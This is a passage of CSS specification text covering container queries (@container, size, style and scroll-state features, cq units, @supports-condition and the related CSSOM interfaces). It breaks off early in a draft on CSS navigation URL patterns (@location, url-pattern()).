| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `container` shorthand property sets both `container-type` and `container-name` in the same declaration. If <'container-type'> is omitted, it is reset to its initial value.

> **Example:** We can define both a `container-type` and `container-name` using the shorthand syntax:
>
> ```css
> main {
>   container: my-layout / size;
> }
>
> .grid-item {
>   container: my-component / inline-size;
> }
> ```

#### 5.4.  Container Queries: the `@container` rule {#css-conditional-5:container-rule}

The **@container** rule is a conditional group rule whose condition contains a **container query**, which is a boolean combination of container size queries and/or container style queries. Style declarations within the `@container` rule are [filtered](#css-cascade-5:filtering) by its condition to only match when the container query is true for their element’s query container.

The syntax of the `@container` rule is:

```css
@container <container-query-list> {
  <rule-list>
}
```

where:

```css
<container-query-list> = <container-condition>#
<container-condition> = [ <container-name>? <container-query>? ]!
<container-name> = <custom-ident>
<container-query> = not <query-in-parens>
          | <query-in-parens> [ [ and <query-in-parens> ]* | [ or <query-in-parens> ]* ]
<query-in-parens> = ( <container-query> )
          | ( <size-feature> )
          | style( <style-query> )
          | scroll-state( <scroll-state-query> )
          | <general-enclosed>

<style-query>     = not <style-in-parens>
          | <style-in-parens> [ [ and <style-in-parens> ]* | [ or <style-in-parens> ]* ]
          | <style-feature>
<style-in-parens> = ( <style-query> )
          | ( <style-feature> )
          | <general-enclosed>
<style-feature> = <style-feature-plain> | <style-feature-boolean> | <style-range>
<style-feature-plain> = <style-feature-name> : <style-feature-value>
<style-feature-boolean> = <style-feature-name>
<style-range> = <style-range-value> <mf-comparison> <style-range-value>
    | <style-range-value> <mf-lt> <style-range-value> <mf-lt> <style-range-value>
    | <style-range-value> <mf-gt> <style-range-value> <mf-gt> <style-range-value>
<style-range-value> = <custom-property-name> | <style-feature-value>

<scroll-state-query>     = not <scroll-state-in-parens>
             | <scroll-state-in-parens> [ [ and <scroll-state-in-parens> ]* | [ or <scroll-state-in-parens> ]* ]
             | <scroll-state-feature>
<scroll-state-in-parens> = ( <scroll-state-query> )
             | ( <scroll-state-feature> )
             | <general-enclosed>
```

The keywords `none`, `and`, `not`, and `or` are excluded from the `<custom-ident>` above.

For each element, the query container to be queried is selected from among the element’s ancestor query containers that are established as a valid query container for all the container features in the `<container-query>`. If the <container-query> contains unknown or unsupported container features, no query container will be selected for that `<container-condition>`. The `<container-name>` filters the set of query containers considered to just those with a matching query container name.

Once an eligible query container has been selected for an element, each container feature in the `<container-query>` is evaluated against that query container. If no ancestor is an eligible query container, then the container query is `unknown` for that element. As with media queries, `<general-enclosed>` evaluates to `unknown`. If the <container-query> is omitted, the query container is eligible as long as the `<container-name>` matches.

Each `<container-condition>` in a container query list selects its own query container, and is evaluated independently. A container query list is `true` if *any* of its component <container-condition>s are `true`, and `false` only if *all* of its component <container-condition>s are `false`.

> **Example:** As with media queries, we can string together multiple queries in a single condition:
>
> ```css
> @container card (inline-size > 30em) and style(--responsive: true) {
>   /* styles */
> }
> ```
>
> The styles above will only be applied if there is an ancestor container named "card" that meets both the `inline-size` and style conditions.
>
> We can also combine multiple conditions into a list, with each condition evaluating against a different container:
>
> ```css
> @container card (inline-size > 30em), style(--large: true) {
>   /* styles */
> }
> ```
>
> The styles above will be applied if there is an ancestor container named "card" that meets the `inline-size` condition *or* the nearest style container meets the style condition.

Style rules defined on an element inside multiple nested container queries apply when all of the wrapping container queries are true for that element.

> **Note:** Nested container queries can evaluate in relation to different containers, so it is not always possible to merge the individual `<container-condition>`s into a single query.

> **Example:** Using a single comma-separated container query, we can query multiple containers:
>
> ```css
> @container card (inline-size > 30em), style(--responsive: true) {
>   /* styles */
> }
> ```
>
> The styles above will apply for an element inside *either* a container named "card" that meets the `inline-size` condition, *or* a container meeting the style condition.
>
> In order to require that *all* conditions are met while querying multiple containers, we would need to nest multiple queries:
>
> ```css
> @container card (inline-size > 30em) {
>   @container style(--responsive: true) {
>   /* styles */
>   }
> }
> ```
>
> The styles above will only be applied if there is *both* an ancestor container named "card" that meets the `inline-size` condition, *and* an ancestor container meeting the style condition.

Global, name-defining at-rules such as `@keyframes` or `@font-face` or `@layer` that are defined inside container queries are not constrained by the container query conditions.

#### 5.5.  Animated Containers {#css-conditional-5:animated-containers}

A change in the evaluation of a container query must be part of a style change event, even when the change occurred because of animation effects.

> **Example:** A transition on a sibling element can indirectly affect the size of a container, triggering style change events whenever container queries change their evaluation as a result:
>
> ```css
> main {
>   display: flex;
>   width: 300px;
> }
>
> #container {
>   container-type: inline-size;
>   flex: 1;
> }
>
> /* Resolved width is initially 200px, but changes as the transition
>    on #sibling progresses. */
> #inner {
>   transition: 1s background-color;
>   background-color: tomato;
> }
>
> /* When this container query starts (or stops) applying, a transition
>    must start on background-color on #inner. */
> @container (width <= 150px) {
>   #inner {
>   background-color: skyblue;
>   }
> }
>
> #sibling {
>   width: 100px;
>   transition: width 1s;
> }
>
> #sibling:hover {
>   width: 200px;
> }
> ```
>
> ```html
> <main>
>   <div id=container>
>   <div id=inner>Inner</div>
>   </div>
>   <div id=sibling>Sibling</div>
> </main>
> ```

Changes in computed values caused by container query length units must also be part of a style change event.

### 6.  Container Features {#css-conditional-5:container-features}

A **container feature** queries a specific aspect of a query container.

Container features use the same rules as media features when evaluating in a boolean context.

#### 6.1.  Size Container Features {#css-conditional-5:size-container}

A **container size query** allows querying the size of the query container’s principal box. It is a boolean combination of individual **size features** (`<size-feature>`) that each query a single, specific dimensional feature of the query container. The syntax of a **`<size-feature>`** is the same as for a media feature: a feature name, a comparator, and a value. [mediaqueries-5] The boolean syntax and logic combining size features into a size query is the same as for CSS feature queries. (See `@supports`. [css-conditional-3])

If the query container does not have a principal box, or the principal box is not a layout containment box, or the query container does not support container size queries on the relevant axes, then the result of evaluating the size feature is unknown.

Relative length units (including container query length units) and custom properties in container query conditions are evaluated based on the computed values of the query container.

Tree counting functions ([CSS Values 5 §  10. Tree Counting Functions: the sibling-count() and sibling-index() notations](#css-values-5:tree-counting)) are evaluated against the container element.

> **Note:** This is different from the handling of relative units in media queries.

> **Note:** If custom property substitution results in an invalid value for the size feature, it is handled the same as other invalid feature values, and the result of the size feature is `unknown`.

> **Example:** For example, query containers with different font-sizes will evaluate `em`-based queries relative to their own font sizes:
>
> ```css
> aside, main {
>   container-type: inline-size;
> }
>
> aside { font-size: 16px; }
> main { font-size: 24px; }
>
> @container (width > 40em) {
>   h2 { font-size: 1.5em; }
> }
> ```
>
> The `40em` value used in the query condition is relative to the computed value of `font-size` on the relevant query container:
>
> - For any `h2` inside `aside`, the query condition will be true above `640px`.
> - For any `h2` inside `main`, the query condition will be true above `960px`.

> **Example:** Similarly, query containers will evaluate `var()`-based queries relative to their own computed value of the custom property:
>
> ```css
> aside, main {
>   container-type: inline-size;
> }
>
> aside { --query: 300px; }
> main { --query: 500px; }
>
> @container (width > var(--query)) {
>   h2 { font-size: 1.5em; }
> }
> ```
>
> The `var(--query)` value used in the query condition is substituted with the computed value of the `--query` custom property on the relevant query container:
>
> - For any `h2` inside `aside`, the query condition will be true above `300px`.
> - For any `h2` inside `main`, the query condition will be true above `500px`.

##### 6.1.1.  Width: the `width` feature {#css-conditional-5:width}

| Field | Value |
| --- | --- |
| Name: | **width** |
| For: | `@container` |
| Value: | `<length>` |
| Type: | range |

The `width` container feature queries the width of the query container’s content box.

##### 6.1.2.  Height: the `height` feature {#css-conditional-5:height}

| Field | Value |
| --- | --- |
| Name: | **height** |
| For: | `@container` |
| Value: | `<length>` |
| Type: | range |

The `height` container feature queries the height of the query container’s content box.

##### 6.1.3.  Inline-size: the `inline-size` feature {#css-conditional-5:inline-size}

| Field | Value |
| --- | --- |
| Name: | **inline-size** |
| For: | `@container` |
| Value: | `<length>` |
| Type: | range |

The `inline-size` container feature queries the size of the query container’s content box in the query container’s inline axis.

##### 6.1.4.  Block-size: the `block-size` feature {#css-conditional-5:block-size}

| Field | Value |
| --- | --- |
| Name: | **block-size** |
| For: | `@container` |
| Value: | `<length>` |
| Type: | range |

The `block-size` container feature queries the size of the query container’s content box in the query container’s block axis.

##### 6.1.5.  Aspect-ratio: the `aspect-ratio` feature {#css-conditional-5:aspect-ratio}

| Field | Value |
| --- | --- |
| Name: | **aspect-ratio** |
| For: | `@container` |
| Value: | `<ratio>` |
| Type: | range |

The `aspect-ratio` container feature is defined as the ratio of the value of the `width` container feature to the value of the `height` container feature.

##### 6.1.6.  Orientation: the `orientation` feature {#css-conditional-5:orientation}

| Field | Value |
| --- | --- |
| Name: | **orientation** |
| For: | `@container` |
| Value: | portrait \| landscape |
| Type: | discrete |

****portrait****

: The `orientation` container feature is `portrait` when the value of the `height` container feature is greater than or equal to the value of the `width` container feature.

****landscape****

: Otherwise `orientation` is `landscape`.

#### 6.2.  Style Container Features {#css-conditional-5:style-container}

A **container style query** allows querying the computed values of the query container. It is a boolean combination of individual **style features** (`<style-feature>`) that each query a single, specific property of the query container. The syntax of a <style-feature> is either the same as for a valid declaration[CSS-SYNTAX-3], a `<style-feature-name>` or a valid **style range** (`<style-range>`). The **`<style-feature-name>`** can be either a supported CSS property or a valid `<custom-property-name>`. The **`<style-feature-value>`** production matches any valid `<declaration-value>` as long as it doesn’t contain `<mf-lt>`, `<mf-gt>` and `<mf-eq>` tokens.

A `<style-feature-plain>` evaluates to true if the computed value of the given property on the query container matches the given value (which is also computed with respect to the query container), and false otherwise.

A style feature without a value (`<style-feature-boolean>`) evaluates to true if the computed value is different from the initial value for the given property.

To **evaluate a `<style-range>`**, the following steps needs to be performed:

1. If `<style-range-value>` is a `<custom-property-name>`, it needs to be substituted as if the <custom-property-name> was wrapped inside a `var()`.
2. Substitute arbitrary substitution function within `<style-range-value>`.
3. Parse `<style-range-value>` to `<number>`, `<percentage>`, `<length>`, `<angle>`, `<time>`, `<frequency>` or `<resolution>`. If this cannot be done, evaluate to false.
4. If each `<style-range-value>` from the range have the same type, compute each and evaluate the comparison; a unitless zero must be treated as being a zero-`<length>` when compared against a <length> .
5. Otherwise evaluate to false.

The boolean syntax and logic combining style features into a style query is the same as for CSS feature queries. (See `@supports`. [css-conditional-3])

Style features that query a shorthand property are true if the computed values match for each of its longhand properties, and false otherwise.

Cascade-dependent keywords, such as `revert` and `revert-layer`, are invalid as values in a style feature, and cause the container style query to be false.

> **Note:** The remaining non-cascade-dependent CSS-wide keywords are computed with respect to the query container, the same as other values.

#### 6.3.  Scroll State Container Features {#css-conditional-5:scroll-state-container}

A **container scroll-state query** allows querying a container for state that depends on scroll position. It is a boolean combination of individual **scroll-state features** (`<scroll-state-feature>`) that each query a single feature of the query container. The syntax of a **`<scroll-state-feature>`** is the same as for a media feature: a feature name, a comparator, and a value.

Scroll-state features can either match state of the scroller itself (such as the `scrollable` feature), or an element that is affected by the scroll position of an ancestor scroll container’s scrollport (such as the `snapped` feature).

##### 6.3.1.  Updating Scroll State {#css-conditional-5:updating-scroll-state}

Scroll state may cause layout cycles since queried scroll state may cause style changes, which may lead to scroll state changes as a result of layout.

To avoid such layout cycles, `scroll-state` query containers update their current state as part of run snapshot post-layout state steps which is only run at specific points in the [HTML event loop processing model](https://html.spec.whatwg.org/multipage/webappapis.html#event-loop-processing-model).

When asked to run snapshot post-layout state steps, update the current state of every `scroll-state` query container. This snapshotted state will be used for any style and layout updates until the next time these steps are run.

##### 6.3.2.  Sticky positioning: the `stuck` feature {#css-conditional-5:stuck}

| Field | Value |
| --- | --- |
| Name: | **stuck** |
| For: | `@container` |
| Value: | none \| top \| right \| bottom \| left \| block-start \| inline-start \| block-end \| inline-end |
| Type: | discrete |

The `stuck` container feature queries whether a `sticky` positioned container is visually shifted to stay inside the sticky view rectangle for the given edge. The logical edges map to physical based on the direction and writing-mode of the query container. None of the values match if the query container is not sticky positioned.

It is possible for two values from opposite axes to match at the same time, but not for opposite edges along the same axis.

> **Example:** May match:
>
> ```css
> @container scroll-state((stuck: top) and (stuck: left)) { ... }
> ```
>
> Will never match:
>
> ```css
> @container scroll-state((stuck: left) and (stuck: right)) { ... }
> ```

****none****

: The `sticky` container is not shifted in any direction.

****top****

: The `sticky` container is shifted to stay inside the top edge.

****right****

: The `sticky` container is shifted to stay inside the right edge.

****bottom****

: The `sticky` container is shifted to stay inside the bottom edge.

****left****

: The `sticky` container is shifted to stay inside the left edge.

****block-start****

: The `sticky` container is shifted to stay inside the block-start edge.

****inline-start****

: The `sticky` container is shifted to stay inside the inline-start edge.

****block-end****

: The `sticky` container is shifted to stay inside the block-end edge.

****inline-end****

: The `sticky` container is shifted to stay inside the inline-end edge.

##### 6.3.3.  Scroll snapping: the `snapped` feature {#css-conditional-5:snapped}

| Field | Value |
| --- | --- |
| Name: | **snapped** |
| For: | `@container` |
| Value: | none \| x \| y \| block \| inline \| both |
| Type: | discrete |

The `snapped` container feature queries whether a snap target is, or would be, snapped to its scroll snap container in the given axis. That is, it matches any snap target that the `scrollsnapchanging` event is fired for.

****none****

: The query container is not a snap target.

****x****

: `snapped` container feature matches `x` if the query container is a horizontal snap target for its scroll container.

****y****

: `snapped` container feature matches `y` if the query container is a vertical snap target for its scroll container.

****block****

: `snapped` container feature matches `block` if the query container is a snap target for its scroll container. in the block direction of the scroll snap container.

****inline****

: `snapped` container feature matches `inline` if the query container is a snap target for its scroll container in the inline direction of the scroll snap container.

****both****

: `snapped` container feature matches `both` if the query container is a snap target for its scroll container in both directions of the scroll snap container.

##### 6.3.4.  Scrollable: the `scrollable` feature {#css-conditional-5:scrollable}

| Field | Value |
| --- | --- |
| Name: | **scrollable** |
| For: | `@container` |
| Value: | none \| top \| right \| bottom \| left \| block-start \| inline-start \| block-end \| inline-end \| x \| y \| block \| inline |
| Type: | discrete |

The `scrollable` container feature queries whether a scroll container has clipped scrollable overflow rectangle content in the given direction which is reachable through user initiated scrolling. That is, `scrollable` does not match for a `hidden` container, nor for a unreachable scrollable overflow region.

The logical values map to physical based on the direction and writing-mode of the query container. None of the values match if the container is not a scroll container.

****none****

: The scroll container does not have scrollable overflow in any direction.

****top****

: The scroll container has scrollable overflow past the top edge.

****right****

: The scroll container has scrollable overflow past the right edge.

****bottom****

: The scroll container has scrollable overflow past the bottom edge.

****left****

: The scroll container has scrollable overflow past the left edge.

****block-start****

: The scroll container has scrollable overflow past the block-start edge.

****inline-start****

: The scroll container has scrollable overflow past the inline-start edge.

****block-end****

: The scroll container has scrollable overflow past the block-end edge.

****inline-end****

: The scroll container has scrollable overflow past the inline-end edge.

****x****

: The scroll container has horizontally scrollable overflow.

****y****

: The scroll container has vertically scrollable overflow.

****block****

: The scroll container has scrollable overflow in its block direction.

****inline****

: The scroll container has scrollable overflow in its inline direction.

##### 6.3.5.  Scrolled: the `scrolled` feature {#css-conditional-5:scrolled}

| Field | Value |
| --- | --- |
| Name: | **scrolled** |
| For: | `@container` |
| Value: | none \| top \| right \| bottom \| left \| block-start \| inline-start \| block-end \| inline-end \| x \| y \| block \| inline |
| Type: | discrete |

For a query container that is a scroll container, the `scrolled` container feature queries the direction of its most recent relative scroll. The logical values map to physical based on the direction and writing-mode of the query container. None of the values match if the container is not a scroll container.

****none****

: The query container has not had a relative scroll yet.

****top****

: The most recent relative scroll was upwards.

****right****

: The most recent relative scroll was to the right.

****bottom****

: The most recent relative scroll was downwards.

****left****

: The most recent relative scroll was to the left.

****block-start****

: The most recent relative scroll was towards the block-start direction.

****inline-start****

: The most recent relative scroll was towards the inline-start direction.

****block-end****

: The most recent relative scroll was towards the block-end direction.

****inline-end****

: The most recent relative scroll was towards the inline-end direction.

****x****

: The most recent relative scroll was in the horizontal direction.

****y****

: The most recent relative scroll was in the vertical direction.

****block****

: The most recent relative scroll was in the block direction.

****inline****

: The most recent relative scroll was in the inline direction.

### 7.  Container Relative Lengths: the `cqw`, `cqh`, `cqi`, `cqb`, `cqmin`, `cqmax` units {#css-conditional-5:container-lengths}

**Container query length units** specify a length relative to the dimensions of a query container. Style sheets that use container query length units can more easily move components from one query container to another.

The container query length units are:

| unit | relative to |
| --- | --- |
| `cqw` | 1% of a query container’s width |
| `cqh` | 1% of a query container’s height |
| `cqi` | 1% of a query container’s inline size |
| `cqb` | 1% of a query container’s block size |
| `cqmin` | The smaller value of `cqi` or `cqb` |
| `cqmax` | The larger value of `cqi` or `cqb` |

For each element, container query length units are evaluated using the same rules as container size queries on the relevant axis (or axes) described by the unit. The query container for each axis is the nearest ancestor container that accepts container size queries on that axis. If no eligible query container is available, then use the small viewport size for that axis.

> **Note:** In some cases `cqi` and `cqb` units on the same element will evaluate in relation to different query containers. Similarly, `cqmin` and `cqmax` units represent the larger or smaller of the `cqi` and `cqb` units, even when those dimensions come from different query containers.

Child elements do not inherit the relative values as specified for their parent; they inherit the computed values.

> **Example:** Authors can ensure that container query length units have an appropriate query container by applying them inside a container query that relies on the same `container-type`. Custom fallback values can be defined outside the container query:
>
> ```css
> /* The fallback value does not rely on containment */
> h2 { font-size: 1.2em; }
>
> @container (inline-size >= 0px) {
>   /* only applies when an inline-size container is available */
>   h2 { font-size: calc(1.2em + 1cqi); }
> }
> ```

### 8.  Defining Custom Support Queries: the `@supports-condition` rule {#css-conditional-5:supports-condition-rule}

The **@supports-condition** at-rule is a conditional group rule that allows authors to define and name a supports query for later reuse, creating a **named supports condition**. This enables complex or frequently-used feature queries to be referenced by name, improving maintainability and readability.

```css
@supports-condition <supports-condition-name> {
  <block-contents>
}
```

Where **`<supports-condition-name>`** is an `<extension-name>` that defines the name of the supports query.

Anything inside the block is evaluated to test whether the user agent supports the features used. The contents do not have any effect on the document’s rendering.

Once defined, the named supports condition can be used in subsequent `@supports` or `@when` conditions.

If multiple `@supports-condition` rules are defined with the same name, the last one in document order wins, and all preceding ones are ignored.

> **Example:** For example, we can define a supports query checking multiple properties at once:
>
> ```css
> @supports-condition --thicker-underlines {
>   text-decoration-thickness: 0.2em;
>   text-underline-offset: 0.3em;
> }
>
> /* Equivalent to (text-decoration-thickness: 0.2em) and (text-underline-offset: 0.3em) */
> @supports (--thicker-underlines) {
>   a {
>     text-decoration: underline;
>     text-decoration-thickness: 0.2em;
>     text-underline-offset: 0.3em;
>   }
> }
> ```

`@supports-condition` rules are allowed before `@import` and `@namespace` rules (after the `@charset` rule, if any).

> **Example:** As support queries can contain arbitrary declarations, they can be used to detect support for complex features such as nesting:
>
> ```css
> @supports-condition --nesting {
>   & { }
> }
>
> @import url("nested-styles.css") supports(--nesting);
> ```

> **Example:** Support queries can also be used to detect support for at-rules:
>
> ```css
> @supports-condition --stuck-container-feature {
>   @container scroll-state(stuck: top) { }
> }
>
> @supports (--stuck-container-feature) {
>   div { border-color: navy; }
> }
> ```

> **Issue:** The name of the at-rule is under discussion. Alternatives include `@supports-query`, `@supports-test`, and `@custom-supports`. The name should be consistent with the one chosen for custom media queries.

### 9. APIs {#css-conditional-5:apis}

#### 9.1.  The `CSSContainerRule` interface {#css-conditional-5:the-csscontainerrule-interface}

The `CSSContainerRule` interface represents an `@container` rule.

```webidl
dictionary CSSContainerCondition {
  required CSSOMString name;
  required CSSOMString query;
};

[Exposed=Window]
interface CSSContainerRule : CSSConditionRule {
  readonly attribute CSSOMString containerName;
  readonly attribute CSSOMString containerQuery;
  readonly attribute FrozenArray<CSSContainerCondition> conditions;
};
```

> **Issue:** We should try to remove `containerName` and `containerQuery`, since they don’t deal with multiple conditions correctly.

**`conditionText` of type `CSSOMString` (CSSContainerRule-specific definition for attribute on CSSConditionRule)**

: The `conditionText` attribute (defined on the `CSSConditionRule` parent rule), on getting, must return a value as follows:

  1. Let *conditions* be the result of getting the `conditions` attribute.
  2. Let *first* be `true`.
  3. Let *result* be the empty string.
  4. For each *condition* in *conditions*:

    1. If *first* is `false`, append `", "` to *result*.
    2. Set *first* to `false`.
    3. If *condition*’s `name` is not empty:

      1. Append *condition*’s `name` to *result*.
      2. If *condition*’s `query` is not empty, append a single space to *result*.
    4. Append *condition*’s `query` to *result*.
  5. Return *result*

**`containerName` of type `CSSOMString`**

: The `containerName` attribute, on getting, must return a value as follows:

  1. Let *conditions* be the result of getting the `conditions` attribute.
  2. If the length of *conditions* is 1:

    1. Return the only *conditions* item’s `name`.
  3. return `""`.

**`containerQuery` of type `CSSOMString`**

: The `containerQuery` attribute, on getting, must return a value as follows:

  1. Let *conditions* be the result of getting the `conditions` attribute.
  2. If the length of *conditions* is 1:

    1. Return the only *conditions* item’s `query`.
  3. Return `""`.

**`conditions` of type `FrozenArray<CSSContainerCondition?>`**

: The `conditions` attribute, on getting, must return a value as follows:

  1. Let *result* be an empty list.
  2. For each `<container-condition>` *condition* specified in the rule:

    1. Let *dict* be a new `CSSContainerCondition` with `name` set to the serialized `<container-name>` of *condition* if specified, or `""` otherwise, and `query` set to the `<container-query>` specified in *condition* without any logical simplifications, so that the returned query will evaluate to the same result as the specified query in any conformant implementation of this specification (including implementations that implement future extensions allowed by the `<general-enclosed>` extensibility mechanism in this specification). In other words, token stream simplifications are allowed (such as reducing whitespace to a single space or omitting it in cases where it is known to be optional), but logical simplifications (such as removal of unneeded parentheses, or simplification based on evaluating results) are not allowed.
    2. Append *dict* to *result*.
  3. Return *result*.

#### 9.2.  The matchContainer() method {#css-conditional-5:the-matchContainer-method}

```webidl
partial interface Element {
  [NewObject] ContainerQueryList matchContainer(CSSOMString query);
};
```

The `matchContainer()` method allows authors to evaluate a container query list for an element against its ancestor query containers. It parses the given string as a container query list and returns a `ContainerQueryList` object, whose `matches` attribute reflects whether the list is currently true for the element.

The **`matchContainer(query)`** method, when invoked, must run these steps:

1. Let *parsed container query list* be the result of parsing *query* as a `<container-query-list>`.
2. If *parsed container query list* is failure, throw a `SyntaxError` `DOMException`.
3. Return a new `ContainerQueryList` object, with this as its element and the *parsed container query list* as its associated container query list.

#### 9.3.  The `ContainerQueryList` Interface {#css-conditional-5:the-ContainerQueryList-interface}

```webidl
[Exposed=Window]
interface ContainerQueryList {
  readonly attribute CSSOMString query;
  readonly attribute boolean matches;
};
```

A `ContainerQueryList` object has an associated **container query list** and an associated **element** assigned at creation.

The **`query`** attribute must return the serialized form of the associated container query list.

The **`matches`** attribute must return true if the associated container query list matches the state of its element’s query container, and false otherwise.

##### 9.3.1.  Serializing Container Query Lists {#css-conditional-5:containerquerylist-serialization}

To **serialize a container query list** run these steps:

1. If the container query list is empty, then return the empty string.
2. Serialize each `<container-condition>` in the list, in the order they appear, and return the results as a comma-separated list. Each <container-condition> is serialized as specified, with whitespace simplification but no logical simplification, in the same manner as the `containerName` and `containerQuery` attributes.

#### 9.4.  The `CSSSupportsConditionRule` interface {#css-conditional-5:the-csssupportscondition-interface}

The `CSSSupportsConditionRule` interface represents an `@supports-condition` rule.

```webidl
[Exposed=Window]
interface CSSSupportsConditionRule : CSSGroupingRule {
  readonly attribute CSSOMString name;
};
```

**`name` of type `CSSOMString`**

: This attribute is the name of the named supports condition.

---

## CSS Navigation Matching {#css-navigation-1}

- **Shortname:** `css-navigation-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-navigation-1/](https://drafts.csswg.org/css-navigation-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-09-03

### 1. Defining URL patterns in CSS {#css-navigation-1:url-patterns-in-css}

#### 1.1. The `<navigation-location>` value type {#css-navigation-1:nav-location-value-type}

```css
<navigation-location> = <url> | [ <location-name> | <url-pattern()> ]
<location-name> = <dashed-ident>
```

A `<navigation-location>` is defined to **match** a URL-or-null *input* if *input* is non-null, and the corresponding statement:

**the `<navigation-location>` is a `<location-name>`**

: The URL pattern represented by the `@location` rule referenced by the name matching *input*.

**the `<navigation-location>` is a `<url-pattern()>`**

: The provided URL patternmatches *input*.

**the `<navigation-location>` is a `<url>`**

: The provided URL equals *input*.

The `navigation-source-url` represents the current navigation URL given `from`. The `navigation-destination-url` represents the current navigation URL given `to`. The `navigation-current-url` represents the current navigation URL given `at`.

> **Issue:** bikeshed on naming these keywords.

#### 1.2. Declaring named URL patterns: the `@location` rule {#css-navigation-1:at-location}

The **@location** rule is an at-rule that associates an author-defined name with a URL pattern. This name can be referenced in `@navigation` rules and in `:link-to()` pseudo-classes.

The syntax of the `@location` rule is described by the `<location-rule>` production in:

```css
<location-rule> = @location <dashed-ident> { <declaration-list> }
```

This means that the rule accepts a sequence of descriptors that have the syntax of declarations. However, in valid style sheets the only descriptors must match the `<location-descriptor>` production below. Any other descriptors are ignored.

```css
<location-descriptor> = <pattern-descriptor> |
                     <init-descriptor> |
                     <base-descriptor>
<pattern-descriptor> = pattern : <url-pattern()>
<init-descriptor> = <init-descriptor-name> : <string>
<init-descriptor-name> = protocol | hostname | port | pathname |
                         search | hash
<base-descriptor> = base-url : stylesheet | document | <url>
```

If two valid descriptors in a single rule have the same name, the last one is used and the others are ignored. If a rule has both a valid `<pattern-descriptor>` and a valid `<init-descriptor>` then it is ignored.

The `@location` rule can be defined in one of two ways:

**with the `pattern` descriptor**

: in this case the URL pattern represented is the result of invoking create a URL pattern for url-pattern() given *arg* as the argument to the `url-pattern()` function and *baseURLSpecifier* as the (optional) value of the rule’s `<base-descriptor>`.

**with the other descriptors named by `<init-descriptor-name>`**

: In this case the URL pattern represented is the result of invoking create a URL pattern given *input* as `URLPatternInit` constructed from the descriptors and their values. Each dictionary member is given the value of the descriptor with the same name, except the `baseURL` member is given the result of create a URL for a base descriptor given *baseURLSpecifier* as the (optional) value of the rule’s `<base-descriptor>`.

> **Issue:** `document` should probably only apply in origin-clean stylesheets. Is this more confusing? Should we have that rather than the ordinary stylesheet-based URLs?

> **Issue:** Should this use `<dashed-ident>`, `<custom-ident>`, or `<ident>` for the location names?

> **Issue:** Should we use `base-url` or just `base` as the descriptor name?

> **Note:** The list of allowed init descriptors does not include `username` or `password` since they seem unlikely to be useful.

> **Issue:** It’s possible that this syntax with init descriptors in the `@location` rule would make more sense as part of the `url-pattern()` function (that is, as an alternate syntax for what goes inside the function).
>
> This would also give us the option to remove the braces from the syntax of the `@location` rule and make it more like `@import` or `@namespace`. This does remove a potential future extensibility point, but it could also be added back later if we need it.

> **Example:** Either this rule:
>
> ```
> @location --movie-list {
>   pattern: url-pattern("/movies");
> }
> ```
>
> or this rule:
>
> ```
> @location --movie-list {
>   pathname: "/movies";
> }
> ```
>
> define an `@location` rule that associates the name `--movie-list` with the URL `"/movies"` resolved relative to the style sheet.

> **Note:** The bracing syntax also allows for future expansion if needed.

> **Note:** Some of the design discussion for this feature has been in [w3c/csswg-drafts#12594](https://github.com/w3c/csswg-drafts/issues/12594).

#### 1.3. The `url-pattern()` function {#css-navigation-1:url-pattern-function}

The **url-pattern()** function represents a URL pattern, which can be used to match URLs.

```css
<url-pattern()> = url-pattern( <string> )
```

This function represents the URL pattern resulting from invoking create a URL pattern for url-pattern() with its string argument.

The syntax used in the `url-pattern()` function follows that of URL Pattern. It is a pattern string directly based on the syntax used by the popular [path-to-regexp](https://github.com/pillarjs/path-to-regexp) JavaScript library.

> **Example:** Pattern strings can contain capture groups, which by default match the shortest possible string, up to a component-specific separator (`/` in the pathname, `.` in the hostname).
>
> For example, the pathname pattern `"/movies/:id"` will match `"/movies/123"` but not `"/movies/123/cast"`.
>
> A regular expression enclosed in parentheses can also be used instead, so the pathname pattern `"/blog/:id(\\d+)"` will match `"/movies/123"` but not `"/movies/css"`.
>
> You may also omit the name of the capture group by using only a regular expression, for example `"/blog/(\\d+)"`.
>
> A group can also be made optional by using the `?` modifier or by wrapping it in braces. For example, the patterns `"/movies/:id?"` and `"/movies{/:id}"` will match both `"/movies"` and `"/movies/123"` (but not `"/movies/"`).
>
> A full wildcard `*` can also be used to match as much as possible, as in the pattern `"/*/movies"`. This too can be given a name, for example `"/*lang/movies"`.

The steps of the **create a URL pattern for url-pattern()** algorithm, given a string *arg* and an optional *baseURLSpecifier* which can be `document`, `stylesheet`, or a URL, are:

1. Let *baseURL* be the result of create a URL for a base descriptor given *baseURLSpecifier*.
2. Return the result of create a URL pattern given *arg*, *baseURL*, and an empty map.

> **Note:** This function requires that its argument is quoted. This differs from the `url()` function, which allows its argument to be quoted or unquoted.

The **create a URL for a base descriptor** algorithm, given an optional *baseURLSpecifier* which can be `document`, `stylesheet`, or a URL, is:

**if *baseURLSpecifier* is not present or is `stylesheet`**

: the style resource base URL of the rule or declaration block containing the `url-pattern()` function.

**if *baseURLSpecifier* is `document`**

: the document base URL of the document

**if *baseURLSpecifier* is a URL**

: *baseURLSpecifier*

> **Example:** This rule:
>
> ```
> @location --movie-detail {
>   pattern: url-pattern("/movies/:id");
> }
> ```
>
> defines an `@location` rule that associates the name `--movie-detail` with any URL that matches the URL pattern `/movies/:id`.
>
> Any of the following URLs (relative to the style sheet) match:
>
> - `/movies/123`
> - `/movies/456`
> - `/movies/something`
>
> These URLs will not match:
>
> - `/movies/123/` — The trailing slash is not matched by the pattern
> - `/movies/456/extra` — The `/extra` is not matched by the pattern

> **Example:** To have the `--movie-details` location match only numeric `:id` values, define the location either as:
>
> ```
> @location --movie-detail {
>   pattern: url-pattern("/movies/:id(\\d+)");
> }
> ```
>
> or as:
>
> ```
> @location --movie-detail {
>   pattern: url-pattern("/movies/(\\d+)");
> }
> ```
>
> This way, `/movies/something` won’t be matched by the location.
>
> > **Note:** Even though the capture groups are not currently exposed, it is recommended to give the capture groups a name for future use.

> **Issue:** Should the default always be `stylesheet`? For use of `url-pattern()` in `@navigation`, it’s likely more useful for the base URL to be the document URL rather than the style sheet URL. However, it would be very awkward for `url-pattern()` to be inconsistent with `url()`.
>
> Also see other proposed uses of `URLPattern` in CSS in [w3c/csswg-drafts issue #10975](https://github.com/w3c/csswg-drafts/issues/10975), for `:local-link`.

To **serialize a `url-pattern()` function** *f*, serialize a function *f*, using serialize a string on the single argument to serialize *f*’s contents.

> **Note:** This is defined this way because `URLPattern` intentionally does not provide a serialization.

### 2. Pseudo-classes for links {#css-navigation-1:link-navigation-pseudo-classes}

